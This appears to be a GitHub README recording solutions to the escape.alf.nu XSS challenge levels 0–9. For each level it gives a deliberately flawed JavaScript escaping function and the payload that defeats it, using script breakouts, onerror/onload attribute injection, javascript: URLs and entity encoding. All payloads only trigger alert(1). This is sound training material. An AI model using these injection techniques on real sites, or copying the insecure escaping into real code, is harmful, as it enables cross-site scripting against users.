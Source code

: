 JavaScript Injection Challenges Solutions
=========================================

Just a repository to keep my solutions to http://escape.alf.nu so that I can remember them over time...

Useful tools: https://mothereff.in/html-entities


LEVEL 0
-------

    function escape(s) {
        // Warmup.

        return '<script>console.log("'+s+'");</script>';
    }

INPUT:

    "+alert(1)+"`, `");alert(1)//


LEVEL 1
-------

    function escape(s) {
        // Escaping scheme courtesy of Adobe Systems, Inc.
        s = s.replace(/"/g, '\\"');
        return '<script>console.log("' + s + '");</script>';
    }

INPUT:

    \");alert(1)//


LEVEL 2
-------

    function escape(s) {
        s = JSON.stringify(s);
        return '<script>console.log(' + s + ');</script>';
    }

INPUT:

    </script><script>alert(1)//


LEVEL 3
-------

    function escape(s) {
        var url = 'javascript:console.log(' + JSON.stringify(s) + ')';
        console.log(url);

        var a = document.createElement('a');
        a.href = url;
        document.body.appendChild(a);
        a.click();
    }

INPUT:

    %22);alert(1)//


LEVEL 4
-------

    function escape(s) {
        var text = s.replace(/</g, '&lt;').replace('"', '&quot;');
        // URLs
        text = text.replace(/(http:\/\/\S+)/g, '<a href="$1">$1</a>');
        // [[img123|Description]]
        text = text.replace(/\[\[(\w+)\|(.+?)\]\]/g, '<img alt="$2" src="$1.gif">');
        return text;
    }

INPUT:

    [[a|""onload="alert(1)"]]


LEVEL 5
-------

    function escape(s) {
        // Level 4 had a typo, thanks Alok.
        // If your solution for 4 still works here, you can go back and get more points on level 4 now.

        var text = s.replace(/</g, '&lt;').replace(/"/g, '&quot;');
        // URLs
        text = text.replace(/(http:\/\/\S+)/g, '<a href="$1">$1</a>');
        // [[img123|Description]]
        text = text.replace(/\[\[(\w+)\|(.+?)\]\]/g, '<img alt="$2" src="$1.gif">');
        return text;
    }

INPUT:

    [[a|http://onload='alert(1)']]
    [[a|http://onerror='alert(1)']]


LEVEL 6
-------

    function escape(s) {
        // Slightly too lazy to make two input fields.
        // Pass in something like "TextNode#foo"
        var m = s.split(/#/);

        // Only slightly contrived at this point.
        var a = document.createElement('div');
        a.appendChild(document['create'+m[0]].apply(document, m.slice(1)));
        return a.innerHTML;
    }

INPUT:

    Comment#--><script>alert(1)</script>


LEVEL 7
-------

    function escape(s) {
        // Pass inn "callback#userdata"
        var thing = s.split(/#/); 

        if (!/^[a-zA-Z\[\]']*$/.test(thing[0])) return 'Invalid callback';
        var obj = {'userdata': thing[1] };
        var json = JSON.stringify(obj).replace(/</g, '\\u003c');
        return "<script>" + thing[0] + "(" + json +")</script>";
    }

INPUT:

    '#';alert(1)//
    

LEVEL 8
-------

    function escape(s) {
        return '<script>console.log("' + s.toUpperCase() + '")</script>';
    }
    
INPUT:
    
    ")</script><img src onerror=&#x61;&#x6c;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29;//
    ")</script><img src onerror=&#x61;&#x6c;&#x65;&#x72;&#x74;(1)//
    ")</script><img src onerror=&#x61;&#x6c;&#x65;&#x72;&#x74;(1)
                                                 LINE BREAK HERE ☝
                                                 
LEVEL 9
-------

    function escape(s) {
        function htmlEscape(s) {
            return s.replace(/./g, function(x) {
                return { '<': '&lt;', '>': '&gt;', '&': '&amp;', '"': '&quot;', "'": '&#39;' }[x] || x;       
            });
        }

        function expandTemplate(template, args) {
            return template.replace(/{(\w+)}/g, function(_, n) { 
                return htmlEscape(args[n]);
            });
        }

        return expandTemplate(
            "                                                   \n\
                <h2>Hello, <span id=name></span>!</h2>          \n\
                <script>                                        \n\
                    var v = document.getElementById('name');    \n\
                    v.innerHTML = '<a href=#>{name}</a>';       \n\
                <\/script>                                      \n\
            ",
            { name : s }
        );
    }

INPUT:

    \x3cimg src=a onerror=alert(1)\x3e

